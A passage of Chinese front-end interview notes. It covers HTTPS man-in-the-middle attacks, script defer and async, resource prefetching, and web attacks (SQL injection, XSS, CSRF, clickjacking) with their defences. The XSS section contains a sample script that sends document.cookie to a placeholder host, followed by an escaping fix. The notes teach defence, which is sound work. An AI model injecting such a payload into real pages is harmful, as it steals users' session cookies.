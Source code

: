 [HTTTPS参考](http://localhost:8080/blog/interview/network/3.html#%E4%B8%89%E3%80%81https)
### 中间人攻击
用假的公钥去劫持客户端的随机码，用自己的私钥去解密随机码。
怎么防范？验证证书的合法性。用第三方正规的官方证书。

![image](/blog/images/question-8-10.png)
## 28、script标签的defer和async有什么区别
![image](/blog/images/question-8-11.png)

* 无：HTML暂停解析，下载JS，执行JS，再解析HTML
* defer（延迟解析JS）：HTML继续解析，并行下载JS，HTML解析完再执行JS
* async：HTML继续解析，并行下载JS，执行JS，再解析HTML

执行JS和解析HTML不会并行执行，因为JS是单线程的。但是加载JS可以和解析HTML并行。
## 29、prefetch和dns-prefetch分别是什么
### preload和prefetch
preload 资源在当前页面使用，会优先加载。prefetch 资源在未来页面使用，空闲时加载。
### dns-prefetch和preconnect
dns-prefetch即DNS预查询。preconnect即DNS预连接。
## 30、前端攻击手段有哪些，该如何预防
### SQL注入
黑客提交内容时，提交SQL语句，破坏数据库。预防：处理输入的内容，替换特殊字符。
### XSS
XSS，跨站脚本攻击。黑客将JS代码插入到网页内容中，渲染时执行JS代码。预防：特殊字符替换。
```js
 const str = `
<p>123123</p>
<script>
    var img = document.createElement('image')
    img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie
</script>
`
const newStr = str.replaceAll('<', '&lt;' ).replaceAll('>', '&gt;')
```
### CSRF
CSRF，跨站请求伪造。黑客诱导用户去访问另一个网站的接口，伪造请求。

CSRF详细过程：用户登录了A网站，有了Cookie，黑客诱导用户到B网站，并发起A网站的请求。A网站的API发现有Cookie，认为是用户自己操作的。

预防：
* 严格的跨域请求限制，如判断referrer（请求来源）
* 验证码机制
* 为Cookie设置SameSite，禁止跨域传递Cookie
### 点击劫持
诱导界面上蒙一个透明的iframe，诱导用户点击。
